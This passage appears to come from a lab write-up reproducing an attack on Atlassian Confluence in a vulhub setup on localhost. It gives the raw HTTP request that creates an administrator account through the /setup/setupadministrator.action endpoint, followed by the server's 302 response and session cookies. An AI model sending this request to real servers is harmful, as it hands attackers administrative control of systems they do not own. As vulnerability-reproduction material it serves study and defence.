 [![](assets/1699929092-9c844d1405bdae8c2d76f46b617babce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110153704-f19c6f38-7f9b-1.png)

0x02 添加管理员请求包

请求后正常会 302 跳转

```bash
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

response

```bash
HTTP/1.1 302 
Cache-Control: no-store
Expires: Thu, 01 Jan 1970 00:00:00 GMT
X-Confluence-Request-Time: 1698332831817
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'
Set-Cookie: JSESSIONID=1E428B7ED069E414E71DCE1824419A91; Path=/; HttpOnly
Set-Cookie: seraph.confluence=425986%3A2718a7a9244706dd728e51b3df100e9bbc26c242; Max-Age=1209600; Expires=Thu, 09 Nov 2023 15:07:12 GMT; Path=/; HttpOnly
Location: /setup/finishsetup.action
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
```